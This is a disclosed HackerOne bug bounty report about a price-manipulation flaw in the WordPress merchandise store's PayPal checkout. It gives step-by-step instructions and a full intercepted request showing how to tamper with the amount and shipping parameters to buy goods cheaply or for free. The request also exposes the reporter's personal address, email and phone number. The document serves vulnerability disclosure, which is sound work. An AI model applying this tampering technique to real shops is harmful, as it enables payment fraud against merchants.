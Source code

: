 # Parameter tampering : Price Manipulation of Products

## Report Details
- **Report ID**: 682344
- **URL**: https://hackerone.com/reports/682344
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2019-08-26T19:17:18.147Z
- **Disclosed**: 2019-08-29T15:39:07.475Z

## Reporter
- **Username**: ashketchum
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
Hello Security Team,
I have found that you can buy any products in less amount or even we can say as free by changing the price of the product!!

POC : 
1) go to https://mercantile.wordpress.org/
2) choose any product and add to cart
3) Now go to cart add your billing details 
4) Intercept request with burpsuite and click on Proceed to Paypal
5) You will get the following request

REQUEST :

GET /cgi-bin/webscr?cmd=_cart&business=payments%40hellomerch.com&no_note=1&currency_code=USD&charset=utf-8&rm=2&upload=1&return=https%3A%2F%2Fmercantile.wordpress.org%2Fcheckout%2Forder-received%2F10446%2F%3Fkey%3Dwc_order_5d642e2e80f33%26utm_nooverride%3D1&cancel_return=https%3A%2F%2Fmercantile.wordpress.org%2Fcart%2F%3Fcancel_order%3Dtrue%26order%3Dwc_order_5d642e2e80f33%26order_id%3D10446%26redirect%26_wpnonce%3Def9aba5f0f&page_style=&image_url=&paymentaction=sale&bn=WooThemes_Cart&invoice=WP-10446&custom=%7B%22order_id%22%3A10446%2C%22order_key%22%3A%22wc_order_5d642e2e80f33%22%7D&notify_url=https%3A%2F%2Fmercantile.wordpress.org%2Fwc-api%2FWC_Gateway_Paypal%2F&first_name=ASHISH&last_name=DHONE&address1=I2IT+BOYS+HOSTEL+HINJAWADI+OPPOSITE+SYMBIOSIS+COLLEGE&address2=xss&city=PUNE&state=Maharashtra&zip=411057&country=IN&email=ha5ckdangerous5%40gmail.com&night_phone_b=7385711194&no_shipping=1&tax_cart=0.00&shipping_1=<<VULNERABLE PARAMETER>>&item_name_1=WordCamp+US+2018+T-Shirt+-+Women%27s+SM&quantity_1=1&amount_1=<<VULNERABLE PARAMETER>>&item_number_1=WP-WORDCAMPUS2018NAVY-WSM-05-106-B HTTP/1.1
Host: www.paypal.com
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: https://mercantile.wordpress.org/checkout/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8,hi;q=0.7


Now here in this request we have two VULNERABLE PARAMETER as :
1) shipping_1
2) amount_1

Now you change amount to this parameter and forward the request .. you will be able to order the product for less price or even Free using Paypal !!

I have attached POC Video, Please take a look!!

Thank You!!
Ashish Dhone

## Impact

The attacker can reduce the price of the order and make a financial loss!!

## Attachments
- POC.mkv

